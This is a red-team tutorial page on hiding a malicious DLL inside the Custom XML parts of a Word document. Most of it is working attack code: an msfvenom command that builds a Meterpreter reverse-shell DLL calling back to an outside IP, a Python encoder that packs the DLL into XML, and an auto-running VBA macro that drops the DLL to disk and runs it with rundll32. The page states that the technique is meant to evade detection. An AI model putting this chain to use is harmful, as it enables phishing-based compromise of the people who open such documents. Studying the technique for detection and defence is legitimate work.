





# MS Office - Custom XML parts

## Theory

[**Custom XML Parts** ](https://learn.microsoft.com/en-us/visualstudio/vsto/custom-xml-parts-overview?view=vs-2022)are structured data containers embedded within Microsoft Office documents (like DOCX, XLSX, or PPTX). Unlike visible content (text, charts, etc.), these parts are stored separately from the main document body and are primarily used by developers to hold configuration data, metadata, or information consumed by Office add-ins.

Each custom part is represented as a separate `.xml` file inside the Office document archive (which is a ZIP file under the hood), and they are typically stored in the `/customXml/` directory. These XMLs can include arbitrary data—Office doesn’t validate their content unless explicitly linked with active components like macros or embedded scripts.

From a red team perspective, XML Custom Parts offer a stealthy location to hide payloads, shellcode, or indicators used later during exploitation. Since they don’t directly impact document rendering or functionality, they may escape attention during casual inspection or static analysis.

## Practice

### Manually

You can embed payloads such as **Shellcode**, **DLLs**, or **Commands** into Custom XML Parts and retrieve them during document execution using **VBA macros**. This approach allows payloads to live inside the document without being directly visible in the main content or macros, reducing detection.

In this example, we’ll demonstrate how to retreive a DLL or binary from Custom XML Parts, Write it to the disk and execute it from a VBA Macro.

<details>

<summary>1. Generate the DLL</summary>

There are multiple ways to generate a malicious DLL. In this example, we will simply use msfvenom.

```bash
# Simple Meterpreter Staged DLL
msfvenom LHOST=10.10.14.144 LPORT=443 -p windows/x64/meterpreter/reverse_tcp -f dll > rev.dll
```

</details>

<details>

<summary>2. Prepare the environement</summary>

In order to work with XML Custom Parts in Word, we first need to enable the Developer tab in settings. Go to "File" --> "Options" --> "Customize Ribbon" --> and check "Developer"

<figure><figcaption></figcaption></figure>

</details>

<details>

<summary>3. Generate Custom XML Part from the DLL</summary>

Using the Python script below, we can generate Custom XML Part from our DLL.


```python
import random
import string
import base64
import argparse
import os

def generate_customxml(input_file):
    """
    Generate a custom XML part from the contents of an input file.
    
    Args:
        input_file (str): Path to the input file
        
    Returns:
        tuple: (xml_content, part_name)
    """
    # Read the input file
    try:
        with open(input_file, 'rb') as f:
            file_bytes = f.read()
    except Exception as e:
        print(f"Error reading input file: {e}")
        return None, None
    
    # Generate a random part name
    part_name = ''.join(random.choice(string.ascii_lowercase) for i in range(8))
    
    # Base64 encode the file content
    encoded = base64.b64encode(file_bytes).decode()
    
    # Split the encoded content into chunks
    step = 512
    customxml = ''
    part_number = 1
    
    for i in range(0, len(encoded), step):
        customxml += '<{0}_{1}>{2}</{0}_{1}>\n'.format(part_name, part_number, encoded[i:i+step])
        part_number += 1

    # Wrap the chunks in a root element
    xml_content = '<{0}_0>\n{1}</{0}_0>'.format(part_name, customxml)
    
    return xml_content, part_name

def main():
    parser = argparse.ArgumentParser(description='Generate a custom XML part from a file')
    parser.add_argument('input_file', help='Path to the input file')
    parser.add_argument('-o', '--output', help='Output file path (default: input_file.xml)')
    
    args = parser.parse_args()
    
    if not os.path.exists(args.input_file):
        print(f"Error: Input file '{args.input_file}' does not exist")
        return
    
    xml_content, part_name = generate_customxml(args.input_file)
    
    if xml_content:
        output_file = args.output if args.output else f"{args.input_file}.xml"
        
        try:
            with open(output_file, 'w') as f:
                f.write(xml_content)
            print(f"XML content generated successfully with part name '{part_name}'")
            print(f"Output written to: {output_file}")
        except Exception as e:
            print(f"Error writing output file: {e}")

if __name__ == "__main__":
    main()
```


We can run it as follows.

```bash
python GenCustomXML.py rev.dll -o evil-sc.doc
```

</details>

<details>

<summary>4. Insert the XML Custom Part</summary>

To insert the XML Custom Part, go to "Developer" --> "XML Mapping Pane"

<figure><figcaption></figcaption></figure>

Click "Custom XML Part" --> "Add"

<figure><figcaption></figcaption></figure>

And finally select the previously generated Custom XML Part.

<figure><figcaption></figcaption></figure>

</details>

<details>

<summary>5. Write &#x26; insert the Macro</summary>

We should now write a VBA Macro that will retreive the inserted DLL to execute it. We will use RunDll32 to do so.

The Random part name should be edited according to the previously generated one.

```visual-basic
Option Explicit

Private Type STARTUPINFO
    cb As Long                  'DWORD  cb;
    lpReserved As String        'LPSTR  lpReserved;
    lpDesktop As String         'LPSTR  lpDesktop;
    lpTitle As String           'LPSTR  lpTitle;
    dwX As Long                 'DWORD  dwX;
    dwY As Long                 'DWORD  dwY;
    dwXSize As Long             'DWORD  dwXSize;
    dwYSize As Long             'DWORD  dwYSize;
    dwXCountChars As Long       'DWORD  dwXCountChars;
    dwYCountChars As Long       'DWORD  dwYCountChars;
    dwFillAttribute As Long     'DWORD  dwFillAttribute;
    dwFlags As Long             'DWORD  dwFlags;
    wShowWindow As Integer      'WORD   wShowWindow;
    cbReserved2 As Integer      'WORD   cbReserved2;
    lpReserved2 As LongPtr      'LPBYTE lpReserved2;
    hStdInput As LongPtr        'HANDLE hStdInput;
    hStdOutput As LongPtr       'HANDLE hStdOutput;
    hStdError As LongPtr        'HANDLE hStdError;
End Type

' https://msdn.microsoft.com/fr-fr/library/windows/desktop/ms684873(v=vs.85).aspx
Private Type PROCESS_INFORMATION
    hProcess As LongPtr     'HANDLE hProcess;
    hThread As LongPtr      'HANDLE hThread;
    dwProcessId As Long     'DWORD  dwProcessId;
    dwThreadId As Long      'DWORD  dwThreadId;
End Type

#If Win64 Then
    Private Declare PtrSafe Function Create Lib "KERNEL32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, ByVal lpProcessAttributes As LongPtr, ByVal lpThreadAttributes As LongPtr, ByVal bInheritHandles As Boolean, ByVal dwCreationFlags As Long, ByVal lpEnvironment As LongPtr, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function Create Lib "KERNEL32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, ByVal lpProcessAttributes As Long, ByVal lpThreadAttributes As Long, ByVal bInheritHandles As Boolean, ByVal dwCreationFlags As Long, ByVal lpEnvironment As Long, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If


Sub AutoOpen()
    Run
End Sub

Sub Document_Open()
    Run
End Sub

Sub Run()
    Dim root As String
    Dim path As String
    Dim exe As String
    Dim startInfo As STARTUPINFO
    Dim procInfo As PROCESS_INFORMATION
    Dim res As Long

    path = Environ("USERPROFILE") & "\Documents\evil.dll"   
    Drop(path)
    Dim exists As String
    Dim hReq As Object


    #If Win64 Then
        root = "C:\Windows\System32\"
    #Else
        root = "C:\Windows\SysWOW64\"
    #End If

    exe = root & "rundll32.exe " & Path & ",EntryPoint"
    res = Create(vbNullString, exe, &0, &0, False, &0, &0, vbNullString, startInfo, procInfo)
End Sub

Sub Drop(ByVal Path As String)
    Dim decoded, objFSO, objFile
    decoded = B64(GetCustomPart("hruyvwpg")) 'EDIT THIS LINE
    Set objFSO = CreateObject("Scripting.FileSystemObject")
    Set objFile = objFSO.CreateTextFile(Path, True)
    objFile.Write decoded
    objFile.Close
End Sub

Sub Send(ByVal hReq As Object, ByVal url As String)
    With hReq
        .Open "GET", url, False
        .Send
    End With
End Sub

Function GetCustomXMLPart(ByVal Name As String) As Object
    Dim part
    Dim parts
    
    On Error Resume Next
    Set parts = ActiveDocument.CustomXMLParts
    
    For Each part In parts
        If part.SelectSingleNode("/*").BaseName = Name Then
            Set GetCustomXMLPart = part
            Exit Function
        End If
    Next
        
    Set GetCustomXMLPart = Nothing
End Function

Function GetCustomXMLPartTextSingle(ByVal Name As String) As String
    Dim part
    Dim out, m, n
    
    Set part = GetCustomXMLPart(Name)
    If part Is Nothing Then
        GetCustomXMLPartTextSingle = ""
    Else
        out = part.DocumentElement.Text
        n = Len(out) - 2 * Len(Name) - 5
        m = Len(Name) + 3
        If Mid(out, 1, 1) = "<" And Mid(out, Len(out), 1) = ">" And Mid(out, m - 1, 1) = ">" Then
            out = Mid(out, m, n)
        End If
        GetCustomXMLPartTextSingle = out
    End If
End Function

Function GetCustomPart(ByVal Name As String) As String
    On Error GoTo ProcError
    Dim tmp, j
    Dim part
    j = 0
    
    Set part = GetCustomXMLPart(Name & "_" & j)
    While Not part Is Nothing
        tmp = tmp & GetCustomXMLPartTextSingle(Name & "_" & j)
        j = j + 1
        Set part = GetCustomXMLPart(Name & "_" & j)
    Wend
    
    If Len(tmp) = 0 Then
        tmp = GetCustomXMLPartTextSingle(Name)
    End If
    
    GetCustomPart = tmp
    
ProcError:
End Function

Function B64(ByVal data As String) As Byte()
    Dim objXML2 As Object
    Dim objNode As Object

    Set objXML2 = CreateObject("MSXML2.DOMDocument")
    Set objNode = objXML2.createElement("b64")
    objNode.DataType = "bin.base64"
    objNode.Text = data
    B64 = StrConv(objNode.nodeTypedValue, vbUnicode)
    Set objNode = Nothing
    Set objXML2 = Nothing
End Function
```

To insert the macro, you can hit ALT + F11 when your Word document is opened. More details can be found [on this page.](https://red.infiltr8.io/redteam/delivery/phishing/phishing-with-ms-office/vba)

</details>

Here is a proof-of-concept example using a Sliver C2 DLL.

<figure><figcaption></figcaption></figure>

### Tools - Automate The Process



//TO DO



## Resources


